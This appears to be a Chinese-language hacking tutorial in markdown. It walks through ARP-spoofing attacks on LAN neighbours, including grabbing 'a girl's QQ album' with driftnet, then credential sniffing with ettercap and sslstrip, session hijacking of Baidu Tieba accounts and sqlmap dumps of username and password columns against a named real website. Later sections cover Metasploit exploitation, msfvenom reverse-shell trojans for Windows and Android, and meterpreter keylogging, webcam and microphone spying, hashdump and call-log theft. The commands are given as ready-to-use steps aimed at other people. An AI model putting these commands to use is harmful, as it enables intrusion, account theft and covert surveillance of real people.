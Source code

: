 <div id="Other.md"></div>

[一、局域网断网攻击](#一)  
[二、获取内网妹子的QQ相册](#二)  
[三、HTTP账号密码获取](#三)  
[四、HTTPS账号密码获取](#四)  
[五、会话劫持-登录别人的百度贴吧](#五)  
[六、会话劫持-一键劫持会话](#六)  
[七、SQLMAP介绍及ASP网站渗透](#七)  
[八、SQLMAP介绍之PHP网站渗透](#八)  
[九、SQLMAP介绍之Cookie注入](#九)  
[十、metasploit新手知识补全](#十)  
[十一、Metasploit之我的远程控制软件](#十一)  
[十二、Metasploit之木马文件操作功能](#十二)  
[十三、Metasploit之木马系统操作功能](#十三)  
[十四、木马的用户操作及摄像头操作](#十四)  
[十五、Metasploit之渗透安卓实战](#十五)  
[十六、Metasploit之服务器蓝屏攻击](#十六)  

==============================


<h5 id="一">一、局域网断网攻击</h5>
arp攻击</br>
命令格式，如下：</br>  
#arpspoof -i 网卡 -t 目标IP 网关</br>

arp攻击原理：</br>
目标的IP流量会经过我的网卡，没有从网关出去（因没有配置IP转发）</br>

看局域网中的IP</br>
#fping -asg 192.168.1.0/24

<h5 id="二">二、获取内网妹子的QQ相册</h5>  
IP流量转发</br>
#echo 1 > /proc/sys/net/ipv4/ip_forward

arp欺骗  
命令格式，如下：  
#arpspoof -i 网卡 -t 目标IP 网关 

arp欺骗原理：</br>
目标的IP流量会经过我的网卡，从网关出去</br>
目标机器上arp -a可以看到网关攻击者的IP

获取本机网卡的图  
#driftnet -i 网卡

<h5 id="三">三、HTTP账号密码获取</h5>
#echo 1 > /proc/sys/net/ipv4/ip_forward
#arpspoof -i eth0 -t 目标IP 网关
#ettercap -Tq -i 网卡
-T启动文本模式
-q安静模式
==>返回结果中，可以看到登录页面，用户名和密码

中文用户名需要URL解码，可以百度解码页面

<h5 id="四">四、HTTPS账号密码获取</h5>
#vi /etc/ettercap/etter.conf
去掉下面的注释
# if you use iptables:
   #redir_command_on = "iptables -t nat -A PREROUTING -i %iface -p tcp --dport %port -j REDIRECT --to-port %rport"
   #redir_command_off = "iptables -t nat -D PREROUTING -i %iface -p tcp --dport %port -j REDIRECT --to-port %rport"

把HTTPS的链接还原为HTTP
#sslstrip -a -f -k

#echo 1 > /proc/sys/net/ipv4/ip_forward
#arpspoof -i eth0 -t 目标IP 网关
#ettercap -Tq -i 网卡

缺点：
容易出现证书错误


<h5 id="五">五、会话劫持-登录别人的百度贴吧</h5>
重新生成抓包后的文件
ferret  
重放流量
hamster
*第一种方法：
#echo 1 > /proc/sys/net/ipv4/ip_forward
#arpspoof -i eth0 -t 目标IP 网关

#wireshark  （等待目标机器浏览网站，wireshark保存抓包文件）
#ferret -r *.cap
#hamster    (根据显示，修改浏览器代理，并在浏览器中访问http://IP：port)

*第二种方法
#echo 1 > /proc/sys/net/ipv4/ip_forward
#arpspoof -i eth0 -t 目标IP 网关
#ferret -i 网卡
#hamster


<h5 id="六">六、会话劫持-一键劫持会话</h5>
#echo 1 > /proc/sys/net/ipv4/ip_forward
#arpspoof -i eth0 -t 目标IP 网关
1）使用CookieCadger-1.08.jar工具
2）选择网卡，启动（等待目标机器操作）


<h5 id="七">七、SQLMAP介绍及ASP网站渗透</h5>
windows下的软件：明小子，啊D，NBSI，御剑

#sqlmap -u 网址
-u：检测是否存在SQL注入，返回数据库名字

#sqlmap -u 网址 --tables
--tables：列出所有表名

#sqlmap -u 网址 --columns -T "表名"
--columns：列出所有列名

#sqlmap -u 网址 --dump -C "列名，列名" -T "表名"
--dump：下载数据（如：列名可写为：username,password）


<h5 id="八">八、SQLMAP介绍之PHP网站渗透</h5>
#sqlmap -u 网址 --is-dba
--is-db：检测是否DBA权限，可以写文件

#sqlmap -u 网址 --dbs
--dbs：列出所有数据库

#sqlmap -u 网址 --current-db
--current-db：查找自己的数据库

#sqlmap -u 网址 --tables -D "数据库名"
#sqlmap -u 网址 --columns -T "表名" -D "数据库名"
#sqlmap -u 网址 --dump -C "列名，列名" -T "表名" -D "数据库名"



<h5 id="九">九、SQLMAP介绍之Cookie注入</h5>
使用cookie中转注入方式
网站为http://www.wisefund.com.cn/about.asp?id=56
#sqlmap -u "http://www.wisefund.com.cn/about.asp" --cookie "id=56" --level 2
--cookie：写id的参数，如果是cookie注入，需要把等级提升为level 2

#sqlmap -u "http://www.wisefund.com.cn/about.asp" --tables "表名"--cookie "id=56" --level 2

<h5 id="十">十、metasploit新手知识补全</h5>
#apt-get update && apt-get upgrade && apt-get dist-upgrade && apt-get clean
（使用前更新库）
#apt-get remove metasploit
#apt-get install metasploit

#msfconsole
exploit模块：漏洞利用
payloads：shellcode，漏洞利用后执行的代码

->help      //帮助
->show      //显示所有命令
->clear     //清除
->use exploit/windows/smb/ms08_067_netapi   //漏洞利用模块
->show options  //显示输入参数 
->set RHOST 192.168.1.100
->set payload windows/meterpreter/reverse_tcp       //攻击利用
->set LHOST 192.168.1.101
->exploit       //执行


<h5 id="十一">十一、Metasploit之我的远程控制软件</h5>

木马：控制端---服务端
根据自己的IP（如：19.168.1.103 55555）生成一个木马
#msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.0.103 LPORT=55555 X > test.exe    
//注：kali2.0 msfpayload和msfencode合并成了msfvenom，如下
#msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.103 LPORT=55555 CMD=test.exe EXITFUNC=thread -f exe -o ./test.exe

#msfconsole
->use exploit/multi/handler     //选择漏洞模块
->set payload windows/meterpreter/reverse_tcp       //选择shellcode
->show options
->set LHOST 192.168.0.103
->set LPORT 55555
->exploit       //等待目标主机双击木马test.exe

-->sysinfo
-->shell


<h5 id="十二">十二、Metasploit之木马文件操作功能</h5>
接着十一节，使用木马
-->help
-->background        //当前会话在后台运行

->sessions -l       //显示会话
->sessions -i 1     //选择进入会话

-->ps       //得到要注入的PID进程
-->migrate 进程ID     //注入进程：木马随时有可能被结束掉

-->run vnc      //查看目标主机远程桌面

-->download 文件名    //下载文件
-->upload 文件名      //上传文件
-->edit 文件名        //编辑文件
-->cat 文件名         //查看文件


<h5 id="十三">十三、Metasploit之木马系统操作功能</h5>

-->arp      //查看arp缓冲表
-->ifconfig
-->getproxy     //获取代理
-->netstat

-->kill     //结束进程
-->ps       //查看进程
-->reg      //注册表
-->shell    //获取shell
-->reboot
-->shutdown
-->sysinfo      //获取电脑信息


<h5 id="十四">十四、Metasploit之木马的用户操作及摄像头操作</h5>

-->enumdesktops        //用户登录数
-->keyscan_dump        //键盘记录-下载
-->keyscan_start       //键盘记录-开始
-->keyscan_stop        键盘记录-结束
-->uictl               //获取键盘鼠标控制权
-->record_mic          //音频录制
（看视频下载安装agt-get install mplayer）
-->webcam_chat         //查看摄像头接口
-->webcam_list         //查看摄像头列表
-->webcam_stream       //摄像头视频获取
-->getsystem           //获取高权限
-->hashdump            //下载hash密文


<h5 id="十五">十五、Metasploit之渗透安卓实战</h5>
根据自己的IP（如：19.168.1.103 55555）生成一个木马
#msfpayload android/meterpreter/reverse_tcp LHOST=192.168.0.103 LPORT=55555 R > test.apk    
//注：kali2.0 msfpayload和msfencode合并成了msfvenom，如下
#msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.0.103 LPORT=55555 > test.apk

#msfconsole
->use exploit/multi/handler     //选择漏洞模块
->set payload android/meterpreter/reverse_tcp       //选择shellcode
->set LHOST 192.168.0.103
->set LPORT 55555
->exploit

-->search       //如搜索jpg、png、bmp
-->download     //如下载jpg、png、bmp
-->webcam_snmp  //截屏
-->webcam_stream    //摄像头监控
-->check_root   //检测root
-->dump_calllog     //下载电话


<h5 id="十六">十六、Metasploit之服务器蓝屏攻击</h5>




